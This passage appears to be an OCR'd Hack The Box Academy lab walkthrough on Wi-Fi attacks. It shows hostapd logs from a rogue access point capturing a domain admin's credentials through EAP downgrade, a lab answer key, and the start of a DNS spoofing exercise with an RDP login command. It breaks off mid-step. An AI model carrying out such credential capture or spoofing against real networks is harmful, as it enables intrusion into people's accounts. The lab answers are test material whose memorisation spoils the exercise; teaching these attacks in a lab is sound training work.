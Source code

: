 ```
<SNIP>
wlan1: STA ca:b9:b8:80:bb:b2 IEEE 802.11: authenticated
wlan1: STA ca:b9:b8:80:bb:b2 IEEE 802.11: associated (aid 1)
wlan1: CTRL-EVENT-EAP-STARTED ca:b9:b8:80:bb:b2
wlan1: CTRL-EVENT-EAP-PROPOSED-METHOD vendor=0 method=1
wlan1: CTRL-EVENT-EAP-PROPOSED-METHOD vendor=0 method=25

GTC: Thu Mar  6 20:25:27 2025
	 username:	HTB\Admin
	 password:	{hidden}
wlan1: CTRL-EVENT-EAP-FAILURE ca:b9:b8:80:bb:b2
wlan1: STA ca:b9:b8:80:bb:b2 IEEE 802.1X: authentication failed - EAP type: 0 (unknown)
wlan1: STA ca:b9:b8:80:bb:b2 IEEE 802.1X: Supplicant used different EAP type: 25 (PEAP)
wlan1: STA ca:b9:b8:80:bb:b2 IEEE 802.11: deauthenticated due to local deauth request
```

Answer: `S3pt3mBer`

# DNS Spoofing (Attack)

## Question 1

### "Perform DNS spoofing on the domain academy.hackthebox.com as demonstrated in this section. What is the password obtained for the user jerry?"

To begin, students need to connect to the target VM using remote desktop protocol, providing the credentials `wifi:wifi`.

Code: shell

```shell
xfreerdp /v:STMIP /u:wifi /p:wifi /dynamic-resolution
```

```
┌─[us-academy-3]─[10.10.15.111]─[htb-ac-594497@htb-llmhupro9r]─[~]
└──╼ [★]$ xfreerdp /v:10.129.232.147 /u:wifi /p:wifi /dynamic-resolution 

[19:10:13:709] [6209:6210] [ERROR][com.winpr.timezone] - Unable to find a match for unix timezone: US/Central
[19:10:14:111] [6209:6210] [INFO][com.freerdp.gdi] - Local framebuffer format  PIXEL_FORMAT_BGRX32
[19:10:14:111] [6209:6210] [INFO][com.freerdp.gdi] - Remote framebuffer format PIXEL_FORMAT_BGRA32
[19:10:14:137] [6209:6210] [INFO][com.freerdp.channels.rdpsnd.client] - [static] Loaded fake backend for rdpsnd

<SNIP>
```

Next, students need to enable monitor mode on the `wlan0` interface.

Code: shell
